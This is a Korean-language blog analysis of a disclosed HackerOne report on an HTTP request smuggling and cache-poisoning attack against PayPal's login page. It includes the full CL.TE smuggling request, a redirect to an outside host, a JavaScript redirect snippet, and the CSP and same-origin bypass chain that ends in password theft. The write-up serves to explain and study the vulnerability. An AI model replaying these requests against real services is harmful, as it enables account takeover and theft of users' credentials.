



<https://hackerone.com/reports/488147>

<https://hackerone.com/reports/510152>


## 요약
- PayPal 로그인 페이지에서 로드되는 JavaScript 파일을 악성 파일로 교체
- 캐시 중독을 통해 모든 로그인 시도자에게 영향
- **CSP**(Content Security Policy)와 **SOP**(Same Origin Policy) 보안 메커니즘 우회
- 사용자의 평문 비밀번호 직접 탈취


## 📌공격 메커니즘
### Request Smuggling을 통한 캐시 중독
> [📌HTTP Request Smuggling 이란 무엇인가?](https://p0lestar.github.io/posts/HTTPRequestSmuggling/#http-request-smuggling-%EC%9D%B4%EB%9E%80-%EB%AC%B4%EC%97%87%EC%9D%B8%EA%B0%80)

- **타겟 파일 선정**
  - PayPal 로그인 페이지의 네트워크 트래픽을 분석한 결과, 다음 JavaScript 파일을 공격 타겟으로 선정했습니다
    `https://c.paypal.com/webstatic/r/fb/fb-all-prod.pp2.min.js`

- 선정 이유:
  - 로그인 페이지의 핵심 JavaScript 파일
  - CDN에서 장기간 캐싱되는 정적 리소스
  - 모든 로그인 시도에서 로드됨
  - 서브도메인(c.paypal.com)에 위치 → **CSP 우회 가능**


### CL.TE Desync 공격 상세
#### 공격 요청

```http
POST /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1
Host: c.paypal.com
Content-Length: 61
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: X
```

---

#### 프론트엔드 처리 (Akamai CDN)

**프론트엔드 서버 처리:**
```
Transfer-Encoding: chunked를 우선 처리
→ "0\r\n\r\n" 발견 (chunk 종료 표시)
→ 여기까지만 하나의 요청으로 인식
→ 백엔드로 전달
```

- 전달된 데이터:

```http
POST /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1
Host: c.paypal.com
Content-Length: 61
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: X
```

---

#### 백엔드의 요청 재조합 과정

**PayPal 백엔드 서버의 처리:**

>RFC 2616 명세에 따라 일부 서버는 Content-Length를 우선하거나 Transfer-Encoding을 지원하지 않습니다.

```
Content-Length: 61 바이트를 읽음
→ POST 요청의 body로 인식:
   "0\r\n\r\nGET /webstatic HTTP/1.1\r\nHost: skeletonscribe.net?\r\nX: X"
→ POST 요청 처리 완료
```

- 백엔드 소켓에 남은 데이터:
```http
GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: X
```

**이 데이터는 다음 요청이 올 때까지 백엔드 TCP 소켓 버퍼에 대기합니다.**

#### **피해자의 정상 요청과의 결합**
- 피해자의 정상 요청:
```http
GET /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1
Host: c.paypal.com
Cookie: session=victim_token
```

- 백엔드가 실제로 처리하는 요청:
```http
GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: XGET /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1   // 이상한 값이라 무시함
Host: c.paypal.com
Cookie: session=victim_token
```

- 백엔드는 이를 하나의 요청으로 해석
  - 요청 경로: /webstatic (폴더 경로)
  - Host: skeletonscribe.net? (공격자 도메인)
  - X 헤더: XGET /webstatic/r/... (나머지는 쓰레기 값)


### 캐시에 악성 응답 저장
- 백엔드 응답 생성:
> 폴더 경로에 슬래시가 없으면 301 리디렉션을 반환합니다. 리디렉션 Location은 **Host 헤더 값을 사용**하여 생성됩니다.

```http
HTTP/1.1 301 Moved Permanently
Location: https://skeletonscribe.net?/webstatic/
```


- **프론트엔드/CDN의 캐싱:**

```
원래 요청: GET /webstatic/r/fb/fb-all-prod.pp2.min.js
응답: 301 Redirect → https://skeletonscribe.net?/webstatic/

→ 캐시 저장:
   Key: c.paypal.com/webstatic/r/fb/fb-all-prod.pp2.min.js
   Value: 301 → skeletonscribe.net
```

- 캐시 중독 완료:이후 모든 사용자가 해당 JS 파일을 요청하면
  - CDN 캐시에서 301 응답 반환
  - 브라우저가 skeletonscribe.net로 리디렉션
  - 공격자 서버의 악성 JavaScript 로드

<br><br>

---

> 여기부터는 제보자가 실패했던 과정과 우회 방법을 적어놓았습니다
{: .prompt-info }


## 📌 첫 번째 장애물: CSP 
PayPal 로그인 페이지는 CSP 헤더를 사용하였고, 허용하는 스크립트 출처는 다음과 같습니다.
  - `'self' (paypal.com)`
  - `https://c.paypal.com`
  - `https://www.paypal.com`


### 악성 JS 로드 실패 원인
공격 시나리오:
```html
<!-- PayPal 로그인 페이지 HTML -->
<script src="https://c.paypal.com/webstatic/r/fb/fb-all-prod.pp2.min.js"></script>
```

**브라우저 동작:** 
1. JS 파일 요청
2. CDN에서 301 응답: → https://skeletonscribe.net/...
3. 브라우저가 skeletonscribe.net로 리디렉션 시도
4. CSP 검사: skeletonscribe.net이 script-src에 없음
5. **차단**



**공격 실패 다이어그램:**
```
[PayPal 로그인 페이지] paypal.com/signin
    ↓ (CSP 적용)
    ├─ ✅ c.paypal.com 허용
    ├─ ✅ www.paypal.com 허용
    └─ ❌ skeletonscribe.net 차단
```
- CSP가 작동하여 Request Smuggling 공격을 1차적으로 차단했습니다

### CSP 우회 전략 (1단계)
- `c.paypal.com` iframe 발견
- PayPal 로그인 페이지를 더 분석한 결과, 다음과 같은 구조를 발견했습니다

```html
<!-- paypal.com/signin 페이지 구조 -->
<html>
  <head>
    <script src="https://c.paypal.com/webstatic/r/fb/fb-all-prod.pp2.min.js"></script>
  </head>
  <body>
    <form id="login">
      <input id="email" />
      <input id="password" type="password" />
    </form>
    
    <!-- 동적으로 생성되는 iframe -->
    <iframe src="https://c.paypal.com/some-dynamic-page"></iframe>
  </body>
</html>
```
- 로그인 프로세스의 일부로 `c.paypal.com`의 하위 페이지가 iframe으로 로드됩니다.

- **CSP가 없는 하위 페이지 활용** (iframe 내부 페이지 특성)

```html
<!-- https://c.paypal.com/some-dynamic-page -->
<html>
  <head>
    <!-- CSP 헤더 없음! -->
    <script src="https://c.paypal.com/webstatic/r/fb/fb-all-prod.pp2.min.js"></script>
  </head>
</html>
```

**공격 성공:**

```
[iframe 내부] c.paypal.com/some-dynamic-page
    ↓ (CSP 없음)
    ├─ JS 파일 요청
    ├─ 캐시에서 301 응답
    ├─ skeletonscribe.net로 리디렉션
    └─ ✅ 악성 JS 로드 성공
```
악성 JavaScript 실행 위치:
  - iframe 내부 (c.paypal.com 출처)
  - CSP 제약 없음
  - 악성 코드 실행 가능


## 📌 두 번째 장애물: SOP

**c.paypal.com로 공격**:
```javascript
// 악성 JS에서 시도
let password = window.parent.document.getElementById('password').value;
```

**SOP 차단:**

```
[부모] paypal.com/signin
    └─ [iframe] c.paypal.com/some-page
         └─ 악성 JS 실행

SOP 검사:
- 부모 출처: paypal.com
- iframe 출처: c.paypal.com
- 서브도메인이 다름 → 다른 출처
- window.parent 접근 시도
- ❌ SecurityError: Blocked by Same Origin Policy
```


**브라우저 콘솔 에러:**

```
Uncaught DOMException: Blocked a frame with origin "https://c.paypal.com" 
from accessing a cross-origin frame.
```

**현재 상황:**
- ✅ CSP 우회 성공 (악성 JS 실행)
- ❌ SOP 차단 (부모 페이지 접근 불가)
- ❌ 비밀번호 탈취 실패

---

### SOP 우회 전략 (2단계)

#### paypal.com/us/gifts 페이지 발견

`Gareth Heyes`가 PayPal 사이트를 추가 조사하여 결정적인 페이지를 발견했습니다

`https://paypal.com/us/gifts`

**이 페이지의 특성:**
1. **CSP 헤더가 없음** - 악성 JS 로드 가능
2. **동일한 JS 파일 import** - `fb-all-prod.pp2.min.js` 사용
3. **paypal.com 도메인** - 로그인 페이지와 같은 출처

**왜 중요한가:**
```
로그인 페이지: paypal.com/signin
gifts 페이지:  paypal.com/us/gifts
               ^^^^^^^^^ 같은 도메인
```


#### **iframe 리디렉션을 통한 Same Origin 확보**
**공격 전략**
- 1단계에서 `c.paypal.com` iframe 내부에서 악성 JS를 실행할 수 있었습니다. 이제 이 JS를 이용해 iframe을 `paypal.com/us/gifts`로 리디렉션합니다.

- **1단계 악성 JavaScript 코드**
```javascript
// c.paypal.com iframe에서 실행
if (window.location.hostname === 'c.paypal.com') {
    // iframe을 리디렉션
    window.location = 'https://paypal.com/us/gifts';
}
```

- **리디렉션 후**

```html
<!-- 로그인 페이지 구조 변화 -->
<html>
  <body>
    <form id="login">
      <input id="password" />
    </form>
    
    <!-- iframe 출처 변경됨 -->
    <iframe src="https://paypal.com/us/gifts"></iframe>
  </body>
</html>
```

- **최종 공격 체인**

`paypal.com/us/gifts` 페이지 로드

```html
<!-- https://paypal.com/us/gifts -->
<html>
  <head>
    <!-- CSP 없음 -->
    <script src="https://c.paypal.com/webstatic/r/fb/fb-all-prod.pp2.min.js"></script>
  </head>
</html>
```
**악성 JS 로드 성공**
  - gifts 페이지가 같은 JS 파일을 import
  - 캐시에서 301 응답
  - 악성 JS 재실행
  - 하지만 이번에는 paypal.com 출처에서 실행



<br><br>

---

## 📌공격 시나리오

### 피해자 관점에서의 전체 공격 흐름
```
[Step 1] 사용자 paypal.com/signin 접속
    ↓
[Step 2] 로그인 페이지 로드
    ├─ 비밀번호 입력 필드 표시
    └─ iframe 생성: c.paypal.com/some-page
         ↓
[Step 3] iframe에서 JS 로드 시도
    ├─ 캐시에서 301 응답 수신
    ├─ skeletonscribe.net으로 리디렉션
    └─ 악성 JS 로드 (CSP 없음)
         ↓
[Step 4] 악성 JS 1차 실행 (c.paypal.com)
    ├─ 부모 접근 시도 → SOP 차단 ✗
    └─ window.location = 'paypal.com/us/gifts'
         ↓
[Step 5] iframe 리디렉션 → paypal.com/us/gifts
    └─ gifts 페이지 로드
         ↓
[Step 6] gifts 페이지에서 JS 로드 시도
    ├─ 캐시에서 301 응답 수신
    ├─ skeletonscribe.net으로 리디렉션
    └─ 악성 JS 로드 (CSP 없음)
         ↓
[Step 7] 악성 JS 2차 실행 (paypal.com)
    ├─ 부모 접근 시도 → SOP 통과 ✓
    │   (paypal.com === paypal.com)
    └─ 비밀번호 필드 감시 시작
         ↓
[Step 8] 사용자가 로그인 버튼 클릭
    ├─ submit 이벤트 발생
    ├─ 악성 JS가 email/password 캡처
    └─ 공격자 서버로 전송
         ↓
[Step 9] 공격 성공: 비밀번호 탈취 완료
```

## 📌**우회 메커니즘 정리:**

| 공격 단계 | 방법 |
|----------|------|
| 1. Request Smuggling | CL.TE desync 활용 |
| 2. 캐시 중독 | 악성 리디렉션 캐싱 |
| 3. CSP 우회 | iframe (CSP 없음) 활용 |
| 4. SOP 우회 | Same Origin으로 리디렉션 |


## 참고
<https://hackerone.com/reports/488147>

<https://hackerone.com/reports/510152>

<https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn>

<https://portswigger.net/web-security/request-smuggling>


>Reported on: March 15, 2019 / Severity 8.7